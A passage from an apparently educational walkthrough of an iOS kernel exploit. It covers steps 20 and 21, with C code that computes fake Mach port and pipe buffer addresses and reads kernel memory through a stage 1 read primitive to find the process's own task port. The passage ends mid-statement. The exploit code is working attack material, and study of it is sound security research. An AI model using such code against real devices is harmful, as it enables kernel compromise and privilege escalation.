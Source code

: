 Since we know the **base_port** address and given the fact that we know the offset from the base port to the fake port (we defined this earlier in Step 3), it is possible for us to calculate the fake port address.

{% highlight c %}
    // 20\. Now use base_port_address to compute the address of the fake port and the containing
    	// pipe buffer, and choose an offset for our fake task in the pipe buffer as well. At this
    	// point, we can now use our stage 1 read primitive.
    	fake_port_address = base_port_address + base_port_to_fake_port_offset;
    	pipe_buffer_address = fake_port_address & ~(pipe_buffer_size - 1);
    	fake_task_offset = 0;
    	if (fake_port_offset < FAKE_TASK_SIZE) {
    		fake_task_offset = pipe_buffer_size - FAKE_TASK_SIZE;
    	}
{% endhighlight %}
#### Step 21: Compute the address of your own task port

Now that we know the address of the fake task and we can create the port, we can create a better read primitive and call it stage 1\. The next step is to compute the address of your own task port. The function **stage1_find_port_address** takes the input as a task and gets the address of the task port using the stage 1 read primtive.

{% highlight c %}
    // 21\. Now that we have the address of our pipe buffer, we can use the stage 1 read
    	// primitive. Get the address of our own task port, which we'll need later.
    	uint64_t task_port_address = stage1_find_port_address(mach_task_self());
    /*
     * stage1_find_port_address
     *
     * Description:
     * 	Get the address of a Mach port to which we hold a send right.
     */
    static uint64_t
    stage1_find_port_address(mach_port_t port) {
    	// Create the message. We'll place a send right to the target port in msgh_local_port.
    	mach_msg_header_t msg = {};
    	msg.msgh_bits        = MACH_MSGH_BITS_SET(MACH_MSG_TYPE_MAKE_SEND, MACH_MSG_TYPE_COPY_SEND, 0, 0);
    	msg.msgh_remote_port = base_port;
    	msg.msgh_local_port  = port;
    	msg.msgh_size        = sizeof(msg);
    	msg.msgh_id          = 'port';
    	// Send the message to the base port.
    	kern_return_t kr = mach_msg(
    			&msg,
    			MACH_SEND_MSG | MACH_SEND_TIMEOUT,
    			sizeof(msg),
    			0,
    			MACH_PORT_NULL,
    			0,
    			MACH_PORT_NULL);
    	if (kr != KERN_SUCCESS) {
    		ERROR("%s returned %d: %s", "mach_msg", kr, mach_error_string(kr));
    		ERROR("could not stash our port in a message to the base port");
    		fail();
    	}
    	// Read the address of the kmsg.
    	uint64_t base_port_imq_messages = base_port_address + OFFSET(ipc_port, imq_messages);
    	uint64_t kmsg = stage1_read64(base_port_imq_messages);
    	// Read the message's msgh_local_port field to get the address of the target port.
    	// +-----------------+---+--------+---------+
    	// | struct ipc_kmsg |   | header | trailer |
    	// +-----------------+---+--------+---------+
    	uint64_t msgh_local_port = kmsg + ipc_kmsg_size_for_message_size(sizeof(msg))
    		- MAX_TRAILER_SIZE - (sizeof(mach_msg_header_t) + MACH_HEADER_SIZE_DELTA)